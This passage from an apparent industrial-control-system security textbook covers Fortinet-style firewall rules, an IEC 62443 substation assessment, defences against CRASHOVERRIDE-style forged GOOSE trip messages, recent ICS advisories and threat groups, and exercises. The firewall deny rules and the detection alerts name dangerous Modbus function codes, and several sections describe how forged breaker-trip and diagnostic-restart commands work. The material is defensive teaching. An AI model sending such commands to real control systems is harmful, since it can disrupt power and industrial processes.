set schedule "OPERATIONAL_HOURS" # 06:00-22:00 only
set action accept
set logtraffic all
next
edit 12
set name "BLOCK-DANGEROUS-FC"
# Block FC08 (Diagnostics), FC43 (Device ID), FC64-72 (user-defined)
set service "MODBUS_DANGEROUS"
set action deny
set logtraffic all # Alert on any attempt
next
edit 13
set name "BLOCK-UNAUTHORIZED-MODBUS"
# Any Modbus traffic not from SCADA master -> deny and alert
set dstaddr "RTU_POOL_10.1.2.0/24"
set service "MODBUS_TCP"
set action deny
set logtraffic all
next
Detection: Nozomi Networks passive monitoring generates an alert for: FC08 from any source; FC05/FC16 outside operational hours; Modbus traffic from any IP other than 10.1.1.10; FC43 (device enumeration preceding targeted attack); rapid sequential writes to the same register address (coil cycling indicating manipulation).
Solved Problem: IEC 62443 Security Level Assessment for Power Substation
A utility company must assess the Security Level achieved by their 138kV transmission substation. The substation uses: SEL-421 protection relays (DNP3 over Ethernet, no SAv5), ABB RTU500 SCADA gateway (IEC 104, no authentication), Cisco IE3400 switch with VLAN segmentation (no 802.1X), and a T-Mobile cellular backup link (no VPN). Determine the achieved SL and the gap to SL-2.
Solution: IEC 62443-3-3 Security Level assessment against SR (Security Requirement) families:
Current State Analysis:
SR 1.1 – Human User Identification and Authentication: FAILED. DNP3 and IEC 104 have no user authentication; any device can send commands. Current SL: SL-0.
SR 1.3 – Account Management: FAILED. No per-user accounts on RTU or protection relays. Current SL: SL-0.
SR 2.1 – Authorization Enforcement: FAILED. All Modbus/DNP3/IEC104 clients have read+write access; no role-based restriction. Current SL: SL-0.
SR 3.1 – Communication Integrity: FAILED. DNP3 without SAv5 and IEC 104 without IEC 62351-5 have no message authentication. Current SL: SL-0.
SR 3.3 – Security Functionality Verification: PARTIAL. Physical access to relays allows manual verification. No automated integrity check. Current SL: SL-1.
SR 5.1 – Network Segmentation: PARTIAL. VLANs exist but without 802.1X; VLAN spoofing is possible. Current SL: SL-1.
SR 5.2 – Zone Boundary Protection: FAILED. Cellular backup link with no VPN provides an unauthenticated path to the OT network. Current SL: SL-0.
Achieved Overall SL: SL-0 to SL-1 (below SL-2 target).
Gaps to SL-2 and Remediation:
-
Enable DNP3 SAv5 on SEL-421 relays (SEL firmware supports SAv5 from version 3.0): provides HMAC message authentication.
-
Upgrade ABB RTU500 to support IEC 62351-5 (authenticated IEC 104), or deploy a protocol proxy (Schweitzer Engineering SEL-3620) that adds authentication.
-
Enable 802.1X on Cisco IE3400 with MAB for relays that cannot support 802.1X supplicant.
-
Deploy IPsec VPN on T-Mobile cellular link (Cisco ASR 901 with FlexVPN, AES-256-GCM, IKEv2 with certificate authentication).
-
Cost-benefit: Implementation cost is approximately $180K; the substation supports 40,000 customers. NERC CIP-005 also mandates these controls for transmission substations.
Solved Problem: CRASHOVERRIDE GOOSE Attack Defense
The CRASHOVERRIDE malware sent malicious GOOSE (Generic Object Oriented Substation Event) messages on an IEC 61850 station bus to trip circuit breakers. Design a protection relay configuration and network security control that detects and blocks unauthorized GOOSE messages without disrupting legitimate protection operations.
Solution: GOOSE attack characteristics: GOOSE messages are multicast (Ethernet layer 2, no IP), sent to the multicast MAC 01:0C:CD:01:XX:XX, with no authentication in IEC 61850 Ed.1/Ed.2. The attacker sends CB_OFF (circuit breaker open) GOOSE messages with high priority (StNum=1, SqNum=0, T=current time) that protection relays accept as legitimate.
Defense architecture:
Layer 1 – GOOSE subscription whitelist per relay: Configure each protection relay (SEL-451, GE Multilin L90) to subscribe to GOOSE messages only from specific publisher MAC addresses:
# SEL-451 Relay: GOOSE Subscription Configuration
# Only accept GOOSE from the specific Bus Protection IED (L90):
GSE_SUB 1:
APPID = 0x0001
SrcMAC = 00:A0:7A:12:34:56 # L90 IED MAC address
GoCBRef = "L90LD0/LLN0$GO$GGIO_CB_Status"
AllowTrip = YES
# Any GOOSE from other MAC address is ignored
Layer 2 – GOOSE rate limiting and anomaly detection: Deploy a managed switch (GE Multilin D400 or ABB FOX-U) with GOOSE traffic inspection. Configure: maximum 5 GOOSE messages per second per APPID (legitimate protection GOOSE during a fault: \(<\)3 per second). More than 5 GOOSE/second from any source: switch drops excess and generates SNMP trap. An attacker’s GOOSE flood (CRASHOVERRIDE sent hundreds per second) triggers the rate limiter.
Layer 3 – IEC 61850 Ed.2 GOOSE Authentication (future): IEC 62351-6 defines HMAC authentication for GOOSE using AES-128-GMAC appended to the GOOSE frame. This requires: hardware crypto accelerator in the IED (most modern relays support it), key management infrastructure for substation (pairwise keys between publishers and subscribers), and a key update procedure that avoids gaps in protection during key rotation.
Layer 4 – Behavioral baseline anomaly: Nozomi Networks Guardian baseline: CB_OFF GOOSE messages are expected only during fault conditions (correlates with relay analog inputs showing overcurrent, overvoltage, or differential current). A CB_OFF GOOSE with no correlated analog fault event = anomaly alert within 500ms.
31.17 Standards¶
| Standard | Organization | Scope |
|---|---|---|
| IEC 62443-1-1 | IEC | IACS security concepts and models |
| IEC 62443-2-1 | IEC | IACS security management system |
| IEC 62443-3-2 | IEC | Zone and conduit security risk assessment |
| IEC 62443-3-3 | IEC | System security requirements and SL |
| IEC 62443-4-2 | IEC | Component technical security requirements |
| NIST SP 800-82r3 | NIST | Guide to OT Security (2023) |
| NIST SP 800-183 | NIST | Networks of Things (IIoT security) |
| NERC CIP-002-5.1 | NERC | BES Cyber System categorization |
| NERC CIP-005-6 | NERC | Electronic security perimeter |
| NERC CIP-007-6 | NERC | Systems security management |
| NERC CIP-010-3 | NERC | Configuration change management |
| NERC CIP-013-1 | NERC | Supply chain risk management |
| IEC 61511-1 | IEC | Safety instrumented systems lifecycle |
| IEC 62351-3 | IEC | Profiles including TCP/IP (TLS) |
| IEC 62351-5 | IEC | IEC 60870-5 and DNP3 security |
| IEC 62351-6 | IEC | IEC 61850 security (GOOSE/SMV) |
| IEC 60870-5-104 | IEC | Telecontrol protocol (no auth baseline) |
| IEEE 1815-2012 | IEEE | DNP3 with Secure Authentication v5 |
| IEC 61850 Ed.2 | IEC | Substation automation (GOOSE, MMS) |
| ISA-99 | ISA | Industrial automation cybersecurity |
| MITRE ATT&CK ICS | MITRE | ICS adversary technique framework |
31.18 Recent Developments (2024–2026)¶
ICS and SCADA security entered a period of heightened national security focus between 2023 and 2025, driven by Chinese state-sponsored intrusions into critical infrastructure and NIST’s updated OT security guidance.
31.18.1 CISA ICS-CERT Advisories 2023–2024 — Siemens and Rockwell Vulnerabilities¶
CISA published a significant volume of ICS-CERT advisories targeting major PLC vendors:
Siemens SIMATIC S7-1500 / SIMATIC S7-1200 (2023–2024):
-
CVE-2023-28831 (CVSS 9.8): Heap buffer overflow in the SIMATIC S7-1500 OPC UA server allows unauthenticated remote code execution. Affected versions: V3.0.0 to V3.0.1. Siemens Security Advisory SSA-892048 (July 2023) recommended firmware update to V3.0.2.
-
CVE-2023-44318 (CVSS 6.5): Web server on SIMATIC S7-1200 and S7-1500 CPUs allows directory traversal to read arbitrary files from the PLC filesystem, including private key material if TLS certificates are stored on the PLC flash.
-
SIMATIC S7 PROFINET discovery: Multiple 2024 advisories (SSA-711928, SSA-953287) documented that PROFINET Discovery and Configuration Protocol (DCP) enabled unauthenticated device renaming and IP address modification, effectively enabling denial-of-service against any SIMATIC device on the PROFINET segment.
Rockwell Automation ControlLogix (2023):
-
CVE-2023-3595 (CVSS 9.8) and CVE-2023-3596: Remote code execution vulnerabilities in Allen-Bradley ControlLogix EtherNet/IP communication module (1756-EN2T series). Attackers with network access to the EtherNet/IP port could execute arbitrary code in the communication module’s firmware, modifying ladder logic execution without the engineering workstation detecting the change. CISA ICSA-23-221-01 (August 2023) identified active exploitation in the wild.
-
Impact: ControlLogix is deployed in approximately 40% of US petrochemical and power generation facilities. The vulnerability’s high CVSS and active exploitation prompted immediate patch guidance from CISA.
Warning: CVE-2023-3595 was discovered by Dragos researchers as part of an investigation into active ICS threat group activity. The vulnerability had been exploited in the wild before public disclosure. Unpatched ControlLogix 1756-EN2T modules connected to networks accessible from corporate IT segments are a critical exposure.
31.18.2 Volt Typhoon — Chinese APT Targeting Critical Infrastructure Hardware¶
CISA, NSA, and FBI issued a joint Cybersecurity Advisory (AA23-144A, May 2023) on Volt Typhoon (also tracked as Bronze Silhouette), a Chinese state-sponsored threat actor conducting long-term persistent access to US critical infrastructure OT networks:
-
Target sectors: Communications, energy, transportation, and water and wastewater systems. Particular focus on pre-positioning within OT networks that could cause disruption in a Taiwan conflict scenario.
-
Living-off-the-land (LOTL) techniques: Volt Typhoon avoided malware by using legitimate system administration tools (wmic, ntdsutil, netsh, PowerShell) to enumerate OT networks, avoiding detection by signature-based IDS. Hardware devices targeted included:
-
Cisco and Fortinet edge routers (initial access, VPN credential harvesting)
-
SCADA historian servers (OPC DA data exfiltration)
-
Operational Technology-specific hardware: Schweitzer Engineering Laboratories (SEL) protective relays accessed via DNP3 after lateral movement from IT to OT networks
-
-
Hardware-targeted persistence: In some intrusions, Volt Typhoon operators installed firmware modifications on Cisco RV320/325 small business routers (CVE-2019-1653) to maintain persistent covert access to operational technology sites even after corporate network cleanup.
-
Duration: CISA assessed that Volt Typhoon had been present in some victim networks for 5 years prior to detection.
31.18.3 NIST SP 800-82 Revision 3 — Updated OT Security Guide (2023)¶
NIST Special Publication 800-82 Revision 3, “Guide to Operational Technology (OT) Security” (September 2023) substantially updated the OT security framework:
-
Zero Trust Architecture for OT: SP 800-82r3 introduces ZTA concepts for OT environments, acknowledging that traditional Purdue Model perimeter-based security is insufficient against advanced persistent threats that have already bridged the IT/OT air gap. Micro-segmentation of OT device communications is recommended.
-
Hardware security controls for legacy PLCs: New Section 6.2.5 addresses compensating controls for PLCs with no native authentication (Modbus RTU, DNP3 without SAv5), including unidirectional security gateways (Waterfall Security, OWL Cyber Defense) as hardware-enforced data-diode solutions.
-
Firmware integrity for ICS: SP 800-82r3 recommends firmware signing and verification for all new ICS hardware procurement, aligned with NIST SP 800-193 Platform Firmware Resilience guidelines. Legacy devices without secure boot should be compensated with network-level anomaly detection.
31.18.4 IEC 62443-3-3 SL-3 Hardware Requirements (2023 Update)¶
IEC 62443-3-3 (System Security Requirements and Security Levels), 2023 amendment, clarified Security Level 3 (SL-3) hardware requirements for industrial control systems defending against sophisticated adversaries (nation-state level threats):
| Security Requirement | SL-3 Specification | Hardware Implementation |
|---|---|---|
| SR 1.1 Human Auth | Hardware multi-factor authentication | Smart card + PIN for all engineering access |
| SR 3.1 Communication Integrity | AES-128-CMAC per message with replay prevention | DNP3 SAv5 or IEC 62351-5 hardware authenticator |
| SR 3.8 Session Integrity | All sessions authenticated and integrity protected | TLS 1.3 hardware offload at SCADA gateway |
| SR 5.2 Zone Boundary | Hardware-enforced unidirectional flow between zones | Data diode for historian connections |
| SR 7.6 Network / Security Config Settings | Physical lockout of network configuration | Hardware key switch on switch/router front panel |
| SR 7.8 Control System Component Inventory | Automated hardware inventory with anomaly detection | Passive network tap + hardware fingerprinting |
31.18.5 Dragos Year in Review 2023 — ICS Threat Groups Targeting Hardware¶
Dragos’s 2023 Year in Review report identified 21 active threat groups targeting industrial control systems. Hardware-focused activities included:
-
CHERNOVITE (Industroyer2): Continued development of ICS-specific malware targeting Siemens SIMATIC and ABB RTU hardware via IEC 104 and IEC 61850 protocols. CHERNOVITE demonstrated capability to issue direct IED (Intelligent Electronic Device) control commands bypassing the SCADA master.
-
BENTONITE: Targeted oil and gas upstream equipment – Emerson DeltaV DCS, Honeywell Experion PKS – with initial access through VPN gateway compromise, followed by OPC-UA enumeration to identify controllable hardware assets.
-
Hardware asset discovery: Multiple threat groups were observed using Shodan, ZoomEye, and active scanning to identify internet-exposed OT hardware prior to targeted intrusions. Exposed assets include: Siemens S7-300/400 PLCs with S7comm accessible on TCP/102 (approximately 4,200 globally Internet-exposed as of Q4 2023).
31.18.6 OT Hardware Security — Claroty and Nozomi Hardware Fingerprinting¶
Passive OT asset visibility platforms evolved to include hardware-level fingerprinting:
Claroty xDome (2023–2024):
-
Protocol-based fingerprinting: passive analysis of PROFINET DCP, BACnet Who-Is/I-Am, DNP3 Data Link Layer identify hardware vendor and model without active scanning. Model confidence score \(>95\%\) for 847 OT device types.
-
Firmware version extraction: Claroty passively extracts firmware version strings from unencrypted protocol responses (Modbus FC43 Device Identification, EtherNet/IP Identity Object Attribute 3), enabling CVE correlation without credentialed access.
Nozomi Networks Guardian (2024):
-
ML-based hardware anomaly detection: trained on 200+ million OT device communication baseline samples. Detects hardware replacement attacks (physical swap of a PLC with a Trojanised unit) by identifying deviations in process variable timing patterns and protocol microsecond-timing signatures unique to specific hardware variants.
-
Vantage platform: cloud-based aggregation of Guardian sensor telemetry enables cross-site hardware anomaly correlation – if a firmware upgrade anomaly is detected at one site, similar patterns at peer sites generate pre-emptive alerts.
31.19 Exercises¶
Exercises
-
A Siemens S7-300 PLC (CPU 315-2 DP) controlling a water pump station has no security features beyond a physical key switch. The plant manager asks for an upgrade path to IEC 62443-3-3 SL-2 compliance without replacing the PLC hardware. Describe the compensating controls that can achieve SL-2 equivalent protection at the network and physical layer, and identify which SL-2 requirements cannot be met without hardware replacement.
-
Modbus TCP is used on an OT network with no function code restrictions. An attacker on a compromised engineering workstation sends FC08 (Diagnostics, sub-function 01 – Restart Communications Option) to all 24 RTUs simultaneously. Describe the physical impact on the process, the detection capability of each OT monitoring platform (Dragos, Claroty, Nozomi), and the network-level control that would have blocked this command.
-
The TRITON malware exploited the Triconex Tricon Model 3008 via the TriStation 1131 protocol. The Triconex implements Triple Modular Redundancy (TMR) with 2-of-3 voting. Explain why the TMR architecture failed to prevent the TRITON attack from disabling the SIS (hint: consider what happens when TRITON’s buggy code causes two of three CPUs to enter fail-safe state simultaneously), and propose a defense that uses the TMR architecture itself as a detection mechanism.
-
A CRASHOVERRIDE-style attack targets a 230kV substation using unauthorized IEC 60870-5-104 commands sent from a compromised engineering workstation. The substation has 8 RTUs controlling transformer tap changers and 12 RTUs controlling feeder circuit breakers. Design an incident response playbook for the first 15 minutes after detection, specifying: isolation steps that preserve substation stability, forensic data collection from network TAPs, and the NERC CIP incident reporting timeline requirements.
-
Allen-Bradley ControlLogix 5580 (1756-L85E) implements CIP Security for EtherNet/IP using DTLS 1.2 for Class 1 (implicit) messaging. A plant engineer claims that the DTLS handshake adds 50ms latency, making it unacceptable for a PLC I/O scan cycle of 10ms. Evaluate this claim: calculate the actual DTLS handshake overhead for a pre-established session versus a new session establishment, and propose the Session ID resumption configuration that eliminates per-packet handshake overhead.
-
A data diode (Waterfall Security Unidirectional Security Gateway) is deployed between the OT historian (Levels 2/3) and the enterprise network (Level 4). The OT team needs to send firmware updates from Level 4 to Level 2 PLCs. Explain why a strict data diode architecture cannot support this requirement, and design a secure alternative that maintains the security properties of the OT network while enabling controlled firmware distribution.
-
The Honeywell Safety Manager (HSM) post-TRITON security update requires firmware to be cryptographically signed before installation. Describe the complete key management architecture for a petrochemical plant with 5 HSM controllers: how the signing keys are generated and stored (HSM vendor, plant, or end user?), the signing ceremony process, the key distribution to controllers, and the revocation procedure if the signing key is compromised.
-
IEC 62351-6 defines optional authentication for IEC 61850 GOOSE messages using AES-128-GMAC. A protection relay engineer argues that implementing GOOSE authentication will cause protection operations to exceed the allowable operating time of 100ms specified in IEC 61850-5 for Class P3 (Performance Level 3). Evaluate this claim by calculating the GMAC computation latency for a 200-byte GOOSE frame on an Arm Cortex-M7 running at 216 MHz (with hardware AES acceleration), and determine whether authentication is feasible within the timing constraint.
-
A SCADA historian (OSIsoft PI Server) at Level 3 must push process data to an enterprise data lake (Level 4) in real time for machine learning model training. The security team requires a data diode; the OT team requires bi-directional PI replication. Research and evaluate two architectures that satisfy both requirements: (1) Waterfall Secure Bypass with time-limited supervised channel, and (2) OSIsoft PI Replication over data diode with event queuing. Compare their security properties and failure modes.
-
MITRE ATT&CK ICS technique T0857 (System Firmware) involves an attacker installing malicious firmware on an industrial PC running a SCADA HMI (Windows 10 LTSC 2019, Intel Core i5-8500). Describe: the attack vector (UEFI firmware vulnerability or bootkit), the persistence mechanism, the detection challenge compared to SCADA application-layer attacks, and the hardware-based defense using Intel Boot Guard + Intel TXT measured boot.
-
A natural gas pipeline SCADA system uses DNP3 over satellite (VSAT) links to communicate with compressor station RTUs at 9600 baud. The RTU engineer reports that enabling DNP3 SAv5 (Secure Authentication version 5) increases the per-command overhead from 24 bytes to 156 bytes (due to HMAC and challenge messages). Calculate the impact on communication latency and throughput at 9600 baud, and propose an optimization that maintains SAv5 security while minimizing bandwidth overhead.
-
After the 2021 Colonial Pipeline ransomware attack (which compromised IT systems, not OT systems directly), the company preemptively shut down OT systems for 6 days. Design a network architecture and detection system that would allow an operator to: (1) confirm that OT systems are not compromised even if IT systems are, (2) continue OT operations during an IT network compromise, and (3) safely resume IT/OT connectivity after IT remediation. Specify the hardware components (firewalls, data diodes, monitoring) and detection mechanisms for each goal.